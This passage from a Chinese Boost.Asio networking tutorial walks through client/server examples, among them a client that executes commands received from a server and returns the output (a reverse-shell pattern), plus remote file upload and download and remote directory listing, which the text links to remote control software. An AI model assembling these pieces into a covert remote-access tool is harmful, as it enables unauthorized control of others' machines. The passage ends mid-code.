int main(int argc, char* argv[])
{
  io_service io;

  ip::udp::endpoint send_ep(ip::address::from_string("127.0.0.1"), 6666);
  ip::udp::socket sock(io);
  sock.open(ip::udp::v4());

  char buf[1];

  // 发送数据
  sock.send_to(buffer(buf), send_ep);

  std::vector<char> v(100, 0);
  ip::udp::endpoint recv_ep;

  // 接收数据
  sock.receive_from(buffer(v), recv_ep);
  std::cout << "数据来自于: " << recv_ep.address() << std::endl;
  std::cout << "数据: " << &v[0] << std::endl;

  system("pause");
  return 0;
}
```

读者可自行编译并运行上述代码片段，则可输出如下图所示的效果；



### 19.3 同步多线程通信

多线程服务依赖于两个通用函数，首先`boost::bind`提供了一个高效的、简单的方法来创建函数对象和函数对象适配器，它的主要功能是提供了一种将函数和它的参数绑定到一起的方法，这种方法可以将具有参数的成员函数、普通函数以及函数对象转化为不带参数的函数对象。

当参数绑定后则下一步就需要使用多线程功能，Boost库中提供了`boost::thread`库，`boost::thread`可以用于创建线程、启动线程、等待线程执行结束以及线程间通信等多种操，有了这两个关键库那么我们只需要`accept.accept(*sock)`等待套接字上线，当有套接字上线后则自动创建`MyThread`子线程，使用该子线程维持会话，首先是服务端实现代码。

```C
#include <iostream>
#include <boost/asio.hpp>
#include <boost/thread.hpp>

using namespace boost::asio;

std::string addr = "127.0.0.1";

// 创建子线程
void MyThread(boost::shared_ptr<ip::tcp::socket> socket)
{
  // 获取当前IP信息
  std::string local_address = socket->local_endpoint().address().to_string();
  while (true)
  {
    try
    {
      if (addr == local_address)
      {
        char data[512];
        size_t len = socket->read_some(buffer(data));
        std::cout << data << std::endl;
      }
    }
    catch (boost::system::system_error e)
    {
      return;
    }
  }
}

int main(int argc, char* argv[])
{
  typedef boost::shared_ptr<ip::tcp::socket> socket_ptr;
  io_service service;

  // 绑定IP与端口地址
  ip::tcp::endpoint ep(ip::tcp::v4(), 6666);
  ip::tcp::acceptor accept(service, ep);

  while (true)
  {
    socket_ptr sock(new ip::tcp::socket(service));

    // 侦听套接字
    accept.accept(*sock);

    // 绑定套接字参数
    boost::function0<void> function = boost::bind(MyThread, sock);

    // 创建新的子线程
    boost::thread threading(function);
  }

  system("pause");
  return 0;
}
```
客户端代码如下所示，由于客户端无需实现多线程所以代码中只需要简单的调用`socket.connect()`链接到服务端，并调用`write_some`发送一条消息即可，代码如下图所示；

```C
#include <iostream>
#include <string>
#include <boost/asio.hpp>

using namespace boost::asio;

int main(int argc, char *argv[])
{
  io_service io_service;
  ip::tcp::endpoint ep(ip::address::from_string("127.0.0.1"), 6666);
  ip::tcp::socket socket(io_service);

  // 链接到服务端
  socket.connect(ep);

  char buffer[1024] = "hello lyshark";

  socket.write_some(boost::asio::buffer(buffer, 1024));

  system("pause");
  return 0;
}
```

运行上方服务端代码，然后开启三个客户端代码，读者可自行观察通信状态，此时三个客户端均实现了输出，如下图所示；



### 19.4 同步远程命令执行

命令执行机制的实现与原生套接字通信一致，仅仅只是在调用时采用了Boost通用接口，在服务端中我们通过封装实现一个`run_command`函数，该函数用于发送一个字符串命令，并循环等待接收客户端返回的字符串，当接收到结束标志`goodbye lyshark`时则说明数据传输完成则退出，客户端使用`exec_command`函数，该函数通过`_popen`函数执行一条命令，并循环`fgets`读取字符串发送给服务端，最终传输一个结束标志完成通信。

服务端代码如下所示，我们通过调用`run_command`函数执行`dir C:\\Users\\`命令，获取到对端主机目录下的文件列表。

```C
#include <iostream>
#include <string>
#include <boost/asio.hpp>

using namespace boost::asio;

// 让客户端执行特定命令
bool run_command(ip::tcp::socket *socket, std::string command)
{
  (*socket).write_some(buffer(command));

  char buffer[1024] = { 0 };
  while ((*socket).read_some(boost::asio::buffer(buffer, 1024)) > 0)
  {
    if (strncmp(buffer, "goodbye lyshark", 15) == 0)
      break;
    std::cout << buffer;
    memset(buffer, 0, sizeof(buffer));
  }
  return true;
}

int main(int argc,char *argv[])
{
  io_service io_service;
  ip::tcp::endpoint ep(ip::tcp::v4(), 6666);
  ip::tcp::acceptor acceptor(io_service, ep);

  ip::tcp::socket socket(io_service);
  acceptor.accept(socket);

  std::cout << "client:" << socket.remote_endpoint().address() << std::endl;

  run_command(&socket, "dir C:\\Users\\");

  std::system("pause");
  return 0;
}
```
客户端代码如下所示`exec_command`函数当收到命令时，自动执行远程命令，并将返回结果传输给服务端，如下所示；
```C
#include <iostream>
#include <string>
#include <boost/asio.hpp>

using namespace boost::asio;

// 实现命令执行,并发送到服务端
bool exec_command(ip::tcp::socket *socket)
{
  char command[1024] = { 0 };
  char buffer[1024] = { 0 };

  (*socket).read_some(boost::asio::buffer(command));

  FILE *fp = _popen(command, "r");
  while (fgets(buffer, sizeof(buffer), fp) != NULL)
  {
    (*socket).write_some(boost::asio::buffer(buffer, 1024));
    memset(buffer, 0, sizeof(buffer));
  }
  (*socket).write_some(boost::asio::buffer("goodbye lyshark"));
  _pclose(fp);
  return true;
}

int main(int argc, char *argv[])
{
  io_service io_service;
  ip::tcp::endpoint ep(ip::address::from_string("127.0.0.1"), 6666);
  ip::tcp::socket socket(io_service);
  socket.connect(ep);

  exec_command(&socket);

  std::system("pause");
  return 0;
}
```

读者可自行运行上述代码，至此则可输出如下图所示的效果；



### 19.5 同步传输结构体

同步模式下的结构体传输与原生套接字实现方式完全一致，读者需要注意的是在接收参数是应该使用`socket.read_some`函数读取，发送参数则使用`socket.write_some`函数实现，对于套接字的解析同样使用强制指针转换的方法。

服务端代码如下所示
```C
#include <iostream>
#include <boost/asio.hpp>

typedef struct
{
  int uuid;
  char uname[1024];
}message;

using namespace boost::asio;

int main(int argc, char* argv[])
{
  io_service io_service;
  ip::tcp::acceptor acceptor(io_service,ip::tcp::endpoint(ip::tcp::v4(), 1000));
  ip::tcp::socket socket(io_service);

  acceptor.accept(socket);

  boost::system::error_code error_code;

  // 定义接收结构
  char recv_buffer[sizeof(message) * 2] = { 0 };
  socket.read_some(boost::asio::buffer(recv_buffer, sizeof(message) * 2), error_code);
  
  // 强转为指针
  message *msg = (message *)recv_buffer;

  std::cout << "数组1: " << msg[0].uname << std::endl;
  std::cout << "数组2: " << msg[1].uname << std::endl;

  if (error_code)
  {
    std::cout << boost::system::system_error(error_code).what() << std::endl;
    return -1;
  }

  std::system("pause");
  return 0;
}
```
客户端代码如下所示
```C
#include <iostream>
#include <boost/asio.hpp>

using namespace boost::asio;

typedef struct
{
  int uuid;
  char uname[1024];
}message;

message msg[2];

int main(int argc, char* argv[])
{
  io_service io_service;
  ip::tcp::socket socket(io_service);
  ip::tcp::endpoint ep(ip::address_v4::from_string("127.0.0.1"), 1000);

  boost::system::error_code error_code;
  socket.connect(ep, error_code);

  // 定义发送变量
  char send_buffer[sizeof(message) * 2] = { 0 };

  // 将数据拷贝到结构中
  msg[0].uuid = 100;
  strcpy(msg[0].uname, "lyshark");

  msg[1].uuid = 200;
  strcpy(msg[1].uname, "admin");

  // 发送字节序
  memcpy(send_buffer, &msg, sizeof(message) * 2);
  socket.write_some(boost::asio::buffer(send_buffer, sizeof(message) *2 ));

  if (error_code)
  {
    std::cout << boost::system::system_error(error_code).what() << std::endl;
    return -1;
  }

  std::system("pause");
  return 0;
}
```

读者可自行编译并运行上述代码，则可实现对结构体的传输功能，输出效果如下图所示；



### 19.6 同步Base64文本传输

Base64是一种二进制到文本的编码方案，用于将二进制数据转换为`ASCII`字符串格式。它通过将二进制数据流转换为一系列`64`个字符来工作，这些字符都可以安全地传输到设计用于处理文本数据的系统中。

如下代码中我们使用Boost中提供的`base64_from_binary`头文件实现两个函数，其中`Base64Decode`函数接收一个字符串并对其进行解压缩操作输出解密后的原始字符串内容，其次`Base64Encode`函数用于将一个原始数据包压缩处理，有了这两个函数的支持，我们只需要在调用发送函数之前对数据进行压缩，在接收数据后在使用对等的函数对其进行解压缩即可，如下是该案例的完整实现。

服务端代码如下所示
```C
#include <iostream>
#include <boost/asio.hpp>

#include <boost/archive/iterators/base64_from_binary.hpp>
#include <boost/archive/iterators/binary_from_base64.hpp>
#include <boost/archive/iterators/transform_width.hpp>

using namespace std;
using namespace boost::asio;
using namespace boost::archive::iterators;

// base64解密
bool Base64Decode(const string & input, string * output)
{
  typedef transform_width<binary_from_base64<string::const_iterator>, 8, 6> Base64DecodeIterator;
  stringstream result;
  try {
    copy(Base64DecodeIterator(input.begin()), Base64DecodeIterator(input.end()), ostream_iterator<char>(result));
  }
  catch (...) {
    return false;
  }
  *output = result.str();
  return output->empty() == false;
}

int main(int argc, char* argv[])
{
  io_service io_service;
  ip::tcp::acceptor acceptor(io_service, ip::tcp::endpoint(ip::tcp::v4(), 6666));
  ip::tcp::socket socket(io_service);

  acceptor.accept(socket);
  boost::system::error_code error_code;

  // 接受base64加密数据
  char recv_buffer[8196] = { 0 };
  socket.read_some(boost::asio::buffer(recv_buffer, 8196), error_code);
  std::cout << "传输Base64: " << recv_buffer << std::endl;

  // 解密后放入output_str
  string output_str;
  Base64Decode(recv_buffer, &output_str);
  std::cout << "解码后: " << output_str << std::endl;

  std::system("pause");
  return 0;
}
```
客户端代码如下所示
```C
#include <iostream>
#include <string>
#include <boost/asio.hpp>

#include <boost/archive/iterators/base64_from_binary.hpp>
#include <boost/archive/iterators/binary_from_base64.hpp>
#include <boost/archive/iterators/transform_width.hpp>

using namespace std;
using namespace boost::asio;
using namespace boost::archive::iterators;

// base64加密
bool Base64Encode(const string & input, string * output)
{
  typedef base64_from_binary<transform_width<string::const_iterator, 6, 8>> Base64EncodeIterator;
  stringstream result;
  try {
    copy(Base64EncodeIterator(input.begin()), Base64EncodeIterator(input.end()), ostream_iterator<char>(result));
  }
  catch (...) {
    return false;
  }
  size_t equal_count = (3 - input.length() % 3) % 3;
  for (size_t i = 0; i < equal_count; i++)
  {
    result.put('=');
  }
  *output = result.str();
  return output->empty() == false;
}

int main(int argc, char* argv[])
{
  io_service io_service;
  ip::tcp::socket socket(io_service);
  ip::tcp::endpoint ep(ip::address_v4::from_string("127.0.0.1"), 6666);

  boost::system::error_code error_code;
  socket.connect(ep, error_code);

  // 定义发送变量
  char send_buffer[4096] = { 0 };

  strcpy(send_buffer, "hello lyshark");

  // 加密后放入base64_str
  string base64_str;
  bool ref = Base64Encode(send_buffer, &base64_str);

  // 发送序列化字节序
  socket.write_some(boost::asio::buffer(base64_str, sizeof(base64_str)));

  std::system("pause");
  return 0;
}
```

运行上述代码片段，读者可看到传输字符串以及解密字符串数据，如下图所示；



### 19.7 同步传输序列化数据

序列化和反序列化是指将数据结构或对象转换为一组字节，以便在需要时可以将其存储在磁盘上或通过网络传输，并且可以在需要时重新创建原始对象或数据结构。

序列化是将内存中的对象转换为字节的过程。在序列化期间，对象的状态被编码为一组字节，并可以保存或传输到另一个位置。序列化后的字节可以在之后进行反序列化，以将对象重建为在序列化之前的状态。

反序列化则是将字节序列重新转换为对象或数据结构的过程。在反序列化期间，字节被反转回原始对象的状态，以便它可以被使用或操作。

在Boost库中，提供了`text_oarchive`和`text_iarchive`于将C对象序列化为文本格式并将其反序列化回去，使用`text_oarchive`可以将C对象以可读文本形式输出，以便在文件或网络上进行存储或传输，与之对应的`text_iarchive`则可以将先前序列化的文本格式数据还原为C对象。

首先来看服务端代码，在代码中我们定义一个自定义`MyDate`结构体，该结构体内包含了一个`serialize`该函数适用于序列化与反序列化时使用的，当我们调用`struct_load`函数时，就会触发这个序列化方法，从而将接收到的序列化数据包反序列化为对应的结构体变量，这样我们就可以自由的解析内部参数。

```C
#include <iostream>
#include <sstream>
#include <boost/asio.hpp>

#include <boost/archive/text_oarchive.hpp>
#include <boost/archive/text_iarchive.hpp>

using namespace std;
using namespace boost::asio;

typedef struct MyDate
{
  unsigned int m_day;
  unsigned int m_month;
  unsigned int m_year;

  MyDate(int d, int m, int y)
  {
    m_day = d;
    m_month = m;
    m_year = y;
  }
  MyDate()
  {
    m_day = 0;
    m_month = 0;
    m_year = 0;
  }

  template<typename Archive>
  void serialize(Archive& archive, const unsigned int version)
  {
    archive & BOOST_SERIALIZATION_NVP(m_day);
    archive & BOOST_SERIALIZATION_NVP(m_month);
    archive & BOOST_SERIALIZATION_NVP(m_year);
  }
}MyDate;

MyDate struct_load(std::string load_string)
{
  MyDate item;
  std::istringstream is(load_string);
  boost::archive::text_iarchive archive(is);

  archive >> item;
  return item;
}

int main(int argc, char* argv[])
{
  io_service io_service;
  ip::tcp::acceptor acceptor(io_service, ip::tcp::endpoint(ip::tcp::v4(), 6666));
  ip::tcp::socket socket(io_service);

  acceptor.accept(socket);
  boost::system::error_code error_code;

  // 接收序列化后的数据
  char recv_buffer[8196] = { 0 };
  socket.read_some(boost::asio::buffer(recv_buffer, 8196), error_code);

  // 反序列化接收到的数据
  MyDate ptr;
  ptr = struct_load(recv_buffer);
  std::cout << "反序列化: " << ptr.m_year << std::endl;

  std::system("pause");
  return 0;
}
```
接着我们来分析一下客户端代码实现，对于客户端而言我们同样需要定义一个完全一致的`MyDate`结构体，当调用`struct_save`函数时则会将传入的结构体参数序列化为一个字符串，此时通过调用`write_some`即可将压缩后的结构体传输给服务端。

```C
#include <iostream>
#include <sstream>
#include <string>
#include <boost/asio.hpp>

#include <boost/archive/text_oarchive.hpp>
#include <boost/archive/text_iarchive.hpp>

using namespace std;
using namespace boost::asio;

typedef struct MyDate
{
  unsigned int m_day;
  unsigned int m_month;
  unsigned int m_year;

  MyDate(int d, int m, int y)
  {
    m_day = d;
    m_month = m;
    m_year = y;
  }
  MyDate()
  {
    m_day = 0;
    m_month = 0;
    m_year = 0;
  }

  template<typename Archive>
  void serialize(Archive& archive, const unsigned int version)
  {
    archive & BOOST_SERIALIZATION_NVP(m_day);
    archive & BOOST_SERIALIZATION_NVP(m_month);
    archive & BOOST_SERIALIZATION_NVP(m_year);
  }
}MyDate;

std::string struct_save(MyDate *ptr)
{
  std::ostringstream os;
  boost::archive::text_oarchive archive(os);
  archive & BOOST_SERIALIZATION_NVP(*ptr);

  std::string content = os.str();
  return content;
}

int main(int argc, char* argv[])
{

  io_service io_service;
  ip::tcp::socket socket(io_service);
  ip::tcp::endpoint ep(ip::address_v4::from_string("127.0.0.1"), 6666);

  boost::system::error_code error_code;
  socket.connect(ep, error_code);

  // 序列化为字符串
  MyDate save_data(12, 7, 1997);
  std::string save_string = struct_save(&save_data);
  std::cout << "序列化后: " << save_string << std::endl;

  // 发送给服务端
  socket.write_some(boost::asio::buffer(save_string), error_code);

  std::system("pause");
  return 0;
}
```

读者可自行编译运行这段代码片段，当两个程序运行时则会实现结构体的远程传输功能，如下图所示；



### 19.8 同步异或加密传输

异或加密是一种对称加密算法，通常用于加密二进制数据。异或操作的本质是对两个二进制数字进行比较，如果它们相同则返回0，如果不同则返回1。异或加密使用一把密钥将明文与密文进行异或运算，从而产生密文。同时，使用相同的密钥进行解密将返回原始的明文数据。在异或加密中，加密和解密使用的是相同的密钥。因此，它是一种对称加密算法。由于其简单性和效率，其经常用于嵌入式系统中。

首先实现服务端部分，在服务端中我们通过实现`Makecode`函数，其可用于将特定的一段字符串异或处理，在本案例中服务端通过传入一段加密后的字符串以及一个`pkey`密钥对，则可实现解密操作，当服务端接收到结构体后，可直接使用该函数对数据包进行解密。

```C
#include <iostream>
#include <boost/asio.hpp>

typedef struct
{
  int uuid;
  char uname[1024];
}message;

using namespace boost::asio;

// 定义异或解密过程
char MakecodeChar(char c, int key)
{
  return c = c^key;
}

void Makecode(char *pstr, int *pkey)
{
  int len = strlen(pstr);
  for (int i = 0; i<len; i++)
    *(pstr + i) = MakecodeChar(*(pstr + i), pkey[i % 5]);
}

int main(int argc, char* argv[])
{
  io_service io_service;
  ip::tcp::acceptor acceptor(io_service, ip::tcp::endpoint(ip::tcp::v4(), 6666));
  ip::tcp::socket socket(io_service);

  acceptor.accept(socket);
  boost::system::error_code error_code;

  // 定义接收结构
  char recv_buffer[sizeof(message) * 2] = { 0 };
  socket.read_some(boost::asio::buffer(recv_buffer, sizeof(message) * 2), error_code);

  // 收到数据后使用异或解密数据包
  int key[] = { 1024, 2589, 3178, 5569, 9658 };
  Makecode(recv_buffer, key);

  // 强转为指针
  message *msg = (message *)recv_buffer;
  std::cout << "获取解密结构体数据: " << msg[0].uname << std::endl;

  std::system("pause");
  return 0;
}
```
接着来看一下客户端代码的实现流程，针对客户端实现当我们构建好一个结构体`msg`时，通过`memcpy`函数将该结构体复制到一块缓冲区内，接着调用`Makecode`并传入密钥对，该函数可将这段字符串异或处理并写回到原始缓冲区内，此时直接调用`write_some`将加密后的数据包通过网络传输即可。
```C
#include <iostream>
#include <boost/asio.hpp>

using namespace boost::asio;

typedef struct AddrInfo
{
  int uuid;
  char uname[1024];
}message;

// 定义异或加密过程
char MakecodeChar(char c, int key)
{
  return c = c^key;
}

void Makecode(char *pstr, int *pkey)
{
  int len = strlen(pstr);
  for (int i = 0; i<len; i++)
    *(pstr + i) = MakecodeChar(*(pstr + i), pkey[i % 5]);
}

message msg[2];

int main(int argc, char* argv[])
{
  io_service io_service;
  ip::tcp::socket socket(io_service);
  ip::tcp::endpoint ep(ip::address_v4::from_string("127.0.0.1"), 6666);

  boost::system::error_code error_code;
  socket.connect(ep, error_code);

  // 定义发送变量
  char send_buffer[sizeof(message) * 2] = { 0 };

  // 将数据拷贝到结构中
  msg[0].uuid = 100;
  strcpy(msg[0].uname, "lyshark");

  msg[1].uuid = 200;
  strcpy(msg[1].uname, "admin");
  memcpy(send_buffer, &msg, sizeof(message) * 2);

  // 使用异或加密发送数据包
  int key[] = { 1024, 2589, 3178, 5569, 9658 };
  Makecode(send_buffer, key);

  // 加密后发送给服务端
  socket.write_some(boost::asio::buffer(send_buffer, sizeof(message) * 2));

  std::system("pause");
  return 0;
}
```

读者可自行编译并运行上述代码片段，服务端主要用于解密输出，而客户端则用于加密并发送，需要注意两者的密钥一定要一致，否则将会出现无法解密出正确明文。



### 19.9 同步实现字典传输

这里所代指的字典是Python中的样子，本节内容我们将通过使用Boost中自带的`Tokenizer`分词器实现对特定字符串的切割功能，使用Boost Tokenizer，可以通过构建一个分隔符或正则表达式的实例来初始化`tokenizer`。然后，可以使用该实例对输入字符串进行划分。`tokenizer`将在输入字符串中寻找匹配输入模式的标记，并将其拆分为单独的字符串。

首先我们先来看服务端是如何实现的，在服务端中我们接收客户端传递过来的`GetProcess,lyshark.exe`字符串，然后通过使用`tokenizer`分词器提取出其内部的`lyshark.exe`字符串，接着调用`GetProcess`函数将进程名传递进去，此时该函数会输出一个字典格式的字符串，此时通过`write_some`即可将该字符串发送给客户端。

```C
#include <iostream>
#include <string>
#include <boost/format.hpp>
#include <boost/asio.hpp>
#include <boost/array.hpp>
#include <boost/tokenizer.hpp>
#include <boost/algorithm/string.hpp>

using namespace std;
using namespace boost;
using boost::asio::ip::tcp;

// 获取系统进程是否存在
std::string GetProcess(const char *procressName)
{
  boost::format fmt("{'ProcName' : %s , 'Count' : 1002 }");
  fmt %procressName;
  return fmt.str();
  return "{ 'ProcName' : 'None', 'Count' : 0 }";
}

int main(int argc, char* argv[])
{
  try
  {
    asio::io_service io_service;
    tcp::acceptor acceptor(io_service, tcp::endpoint(tcp::v4(), 6666));

    while (1)
    {
      tcp::socket socket(io_service);
      acceptor.accept(socket);

      boost::array<char, 4096> buf;
      size_t len = socket.read_some(boost::asio::buffer(buf));

      // 判断第一个参数是否为GetProcess
      if (strncmp(buf.data(), "GetProcess", strlen("GetProcess")) == 0)
      {
        std::string strTag = buf.data();
        system::error_code ignored_error;

        // 通过分割器切割出前后数组
        boost::char_separator<char> sep(", ");

        typedef boost::tokenizer<boost::char_separator<char>> CustonTokenizer;
        CustonTokenizer tok(strTag, sep);

        // 迭代切割,并将结果放入vector容器
        std::vector<std::string> vecSegTag;
        for (CustonTokenizer::iterator beg = tok.begin(); beg != tok.end(); ++beg)
          vecSegTag.push_back(*beg);

        // 将第一个参数也就是 GetProcess,lyshark.exe 中的lyshark.exe 传入GetProcess函数
        std::string ref_string = GetProcess(const_cast<char *>(vecSegTag[1].c_str()));
        // 得到结果返回给客户端
        socket.write_some(asio::buffer(ref_string), ignored_error);
      }
    }
  }
  catch (std::exception& e)
  {
    std::cerr << e.what() << std::endl;
  }
  
  std::system("pause");
  return 0;
}
```
接着就是客户端部分，在该部分中我们构建`GetProcess,lyshark.exe`字符串并将该字符串`write_some`发送给服务端程序，接着通过`read_some`等待服务端传值，当收到传递过来的字典`{'ProcName' : lyshark.exe , 'Count' : 1002 }`则程序退出。
```C
#include <iostream>
#include <boost/array.hpp>
#include <boost/asio.hpp>

using namespace boost;
using boost::asio::ip::tcp;

int main(int argc, char* argv[])
{
  try
  {
    boost::asio::io_service io_service;
    tcp::endpoint end_point(boost::asio::ip::address::from_string("127.0.0.1"), 6666);

    tcp::socket socket(io_service);
    socket.connect(end_point);

    system::error_code ignored_error;

    // 发送命令行
    std::string message = "GetProcess,lyshark.exe";
    socket.write_some(asio::buffer(message), ignored_error);

    // 获取远端返回结果
    boost::array<char, 4096> buf = { 0 };
    size_t len = socket.read_some(boost::asio::buffer(buf));
    std::cout << "返回数据: " << buf.data() << std::endl;
  }
  catch (std::exception& e)
  {
    std::cerr << e.what() << std::endl;
  }

  std::system("pause");
  return 0;
}
```

读者可自行编译并运行上述代码，客户端发送一个字符串，服务端处理后返回处理后的字典格式字符串，如下图所示；



### 19.10 同步实现文件传输

在原生套接字编程中我们介绍了利用文件长度来控制文件传输的方法，本节我们将采用另一种传输方式，我们通过判断字符串是否包含`goodbye lyshark`关键词来验证文件是否传输结束了，当然了这种传输方式明显没有根据长度传输严谨，但使用这种方式也存在一个有点，那就是无需确定文件长度，因为无需读入文件所以在传输速度上要快一些，尤其是面对大文件时。

服务端代码如下所示，在代码中我们分别封装实现`recv_remote_file`该函数用于将远程特定目录下的文件拉取到本地目录下，而`send_local_file`函数则用于将一个本地文件传输到对端主机上，这两个函数都接收三个参数，分别是套接字句柄，本地文件与远程文件的文件路径，在传输时采用了`while`循环读取发送的实现方式每次传输`1024`个字节，直到传输结束为止。
```C
#include <iostream>
#include <string>
#include <boost/asio.hpp>
#include <boost/array.hpp>

using namespace boost::asio;

// 将远程特定目录下的文件拉取到本地目录
bool recv_remote_file(ip::tcp::socket *socket, std::string remote_file_path, std::string local_file_path)
{
  boost::system::error_code error_code;

  // 发送需要下载的文件,告诉客户端我需要下载的文件路径
  std::string message = remote_file_path;
  bool ref = (*socket).write_some(boost::asio::buffer(message), error_code);
  if (ref == false)
    return false;

  char buffer[1024] = { 0 };

  // 打开文件，准备写入，保存远程文件到本地 
  FILE * fp = fopen(local_file_path.c_str(), "wb");
  if (NULL == fp)
    return false;

  int length = 0;

  // 每次传输1024字节，直到传输全部结束
  while ((length = (*socket).read_some(boost::asio::buffer(buffer, 1024), error_code)) > 0)
  {
    // 判断最后一次是否为结束符号
    if (strncmp(buffer, "goodbye lyshark",15) == 0)
    {
      std::cout << "传输结束,再见了 lyshark" << std::endl;
      fclose(fp);
      return true;
    }

    if (fwrite(buffer, sizeof(char), length, fp) < length)
    {
      std::cout << "写入文件失败" << std::endl;
      break;
    }
    std::cout << "接收字节数: " << length << " Bytes" << std::endl;
    memset(buffer, 0, 1024);
  }

  if (error_code)
  {
    fclose(fp);
    return false;
  }
  fclose(fp);
  return true;
}

// 将本地特定文件发送到远程的特定目录下
bool send_local_file(ip::tcp::socket *socket, std::string local_file_path, std::string remote_file_path)
{
  boost::system::error_code ec;
  char buffer[1024] = { 0 };

  // 发送放入目标位置
  bool ref = (*socket).write_some(boost::asio::buffer(remote_file_path));
  if (ref == false)
    return false;

  // 打开待发送文件
  FILE * fp = fopen(local_file_path.c_str(), "rb");
  if (NULL == fp)
    return false;

  int length = 0;

  // 每次读入1024字节 直到全部读取结束
  while ((length = fread(buffer, sizeof(char), 1024, fp)) > 0)
  {
    bool ref = (*socket).write_some(boost::asio::buffer(buffer, 1024));
    if (ref != false)
    {
      std::cout << "发送字节数: " << length << " Bytes" << std::endl;
      memset(buffer, 0, 1024);
    }
  }

  // 发送结束符
  (*socket).write_some(boost::asio::buffer("goodbye lyshark"));

  if (ec)
  {
    fclose(fp);
    return false;
  }
  fclose(fp);
  return true;
}

int main(int argc, char* argv[])
{
  io_service io_service;
  ip::tcp::acceptor acceptor(io_service, ip::tcp::endpoint(ip::tcp::v4(), 6666));
  ip::tcp::socket socket(io_service);
  acceptor.accept(socket);

  std::cout << "远端IP地址: " << socket.remote_endpoint().address() << std::endl;
  std::cout << "本端IP地址: " << socket.local_endpoint().address() << std::endl;

  // 将远程目录下 c://lyshark.exe 下载到本地的 d://lyshark.exe
  bool recv_ref = recv_remote_file(&socket, "c://lyshark.exe", "d://lyshark.exe");
  std::cout << "下载状态: " << recv_ref << std::endl;

  std::system("pause");

  // 将本地目录中的 d://lyshark.exe 发送到远程 c://test.exe
  bool send_ref = send_local_file(&socket, "d://lyshark.exe", "c://test.exe");
  std::cout << "上传状态: " << send_ref << std::endl;

  std::system("pause");
  return 0;
}
```
客户端代码代码如下所示，分别实现了两个函数，函数`upload_file`用于将本地文件上传到服务器端，函数`download_file`则用于接收服务器端发送过来的文件，过程中同样采用`while`循环，每次传输`1024`个字节。
```C
#include <iostream>
#include <boost/asio.hpp>
#include <boost/array.hpp>

using namespace boost::asio;

// 将本地特定文件发送到远程的特定目录下
bool upload_file(ip::tcp::socket *socket)
{
  boost::system::error_code error_code;
  boost::array<char, 4096> buf = { 0 };
  char buffer[1024] = { 0 };

  // 接收要下载文件路径
  size_t len = (*socket).read_some(boost::asio::buffer(buf));
  if (len == 0)
    return false;

  // 打开需要发送的文件
  FILE * fp = fopen(buf.data(), "rb");
  if (NULL == fp)
    return false;

  int length = 0;

  // 每次读入1024字节，直到全部读取结束
  while ((length = fread(buffer, sizeof(char), 1024, fp)) > 0)
  {
    bool ref = (*socket).write_some(boost::asio::buffer(buffer, 1024));
    if (ref != false)
    {
      std::cout << "发送字节数: " << length << " Bytes" << std::endl;
      memset(buffer, 0, 1024);
    }
  }
  // 发送结束符
  (*socket).write_some(boost::asio::buffer("goodbye lyshark"));

  // 如果出现错误直接退出
  if (error_code)
  {
    fclose(fp);
    return false;
  }
  fclose(fp);
  return true;
}

// 获取远程发送过来的文件
bool download_file(ip::tcp::socket *socket)
{
  boost::system::error_code error_code;

  // 读入需要保存文件路径
  char file_path[4096] = { 0 };
  (*socket).read_some(boost::asio::buffer(file_path));

  char buffer[1024] = { 0 };

  //打开文件，准备写入 
  FILE * fp = fopen(file_path, "wb");
  if (NULL == fp)
    return false;

  int length = 0;

  // 每次传输1024字节
  while ((length = (*socket).read_some(boost::asio::buffer(buffer, 1024), error_code)) > 0)
  {
    // 判断最后一次是否为结束符号
    if (strncmp(buffer, "goodbye lyshark",15) == 0)
    {
      std::cout << "传输结束,再见了 lyshark" << std::endl;
      fclose(fp);
      return true;
    }
    if (fwrite(buffer, sizeof(char), length, fp) < length)
    {
      printf("写入文件失败 ! \n");
      break;
    }
    printf("接收字节: %d byte \n", length);
    memset(buffer, 0, 1024);
  }
  if (error_code)
  {
    fclose(fp);
    return true;
  }
  fclose(fp);
  return true;
}

int main(int argc, char* argv[])
{
  io_service io_service;
  ip::tcp::socket socket(io_service);
  ip::tcp::endpoint ep(ip::address_v4::from_string("127.0.0.1"), 6666);

  socket.connect(ep);

  // 该函数对应服务端的 recv_remote_file
  bool upload_ref = upload_file(&socket);
  std::cout << "上传状态: " << upload_ref << std::endl;

  std::system("pause");

  // 该函数对应服务端的 send_local_file
  bool recv_ref = download_file(&socket);
  std::cout << "下载状态: " << recv_ref << std::endl;

  std::system("pause");
  return 0;
}
```

读者可自行编译并运行上述程序，代码中依次实现了上传与下载功能，如下图所示；



### 19.11 同步获取远程目录

远程目录列表的获取也是一种很常用的功能，通常在远程控制软件中都存在此类功能，实现此功能可以通过`filesystem.hpp`库中的`directory_iterator`迭代器来做，该迭代器用于遍历目录中的文件和子目录，它允许开发者轻松遍历目录层次结构并对遇到的文件和目录执行各种操作。

使用`directory_iterator`构造函数创建一个迭代器，该迭代器指向目录中的第一个条目。然后，我们使用一个范围`for`循环来遍历目录中的每个文件和目录，并使用`pos->path().string()`方法即可得到该目录下的文件路径。

当然，`directory_iterator`仅遍历目录的直接子文件夹。如果想遍历目录层次结构中的所有文件和目录，则需要改用`recursive_directory_iterator`来实现递归遍历，或者自行拼接路径完成遍历。

服务端代码实现如下，在代码中我们通过`write_some`发送需要获取远程目录字符串，接着通过调用一次`read_some`接收一次需要循环的次数，当收到客户端传来的目录列表数量后，则可以在循环内依次调用`read_some`函数读取数据，并格式化为`CatalogData`类型，并输出其变量中的数据。

```C
#include <iostream>
#include <boost/lexical_cast.hpp>
#include <boost/asio.hpp>

// 定义结构体,将完整数据放入结构体中
typedef struct
{
  char file_path[2048];
  bool is_directory;
  long file_size;
}CatalogData;

using namespace std;
using namespace boost;
using namespace boost::asio;

CatalogData ptr;

int main(int argc, char* argv[])
{
  io_service io_service;
  ip::tcp::acceptor acceptor(io_service, ip::tcp::endpoint(ip::tcp::v4(), 6666));
  ip::tcp::socket socket(io_service);

  acceptor.accept(socket);
  boost::system::error_code error_code;

  // 发送需要获取的目录
  socket.write_some(boost::asio::buffer("d://lyshark"), error_code);

  // 接收文件数量
  char recv_count[1024] = { 0 };
  size_t len = socket.read_some(boost::asio::buffer(recv_count), error_code);
  std::cout << "接收到数量: " << recv_count << std::endl;

  // 判断如果数量大于等于1则需要循环获取
  int for_count = lexical_cast<int>(recv_count);
  if (for_count >= 1)
  {
    // 循环接收目录
    for (int x = 0; x < for_count; x++)
    {
      // 准备接收缓冲区,以及接收数据包
      char recv_catalogdata[sizeof(CatalogData)] = { 0 };
      socket.read_some(boost::asio::buffer(recv_catalogdata, sizeof(CatalogData)), error_code);

      // 将收到的字节序转换为CatalogData结构体
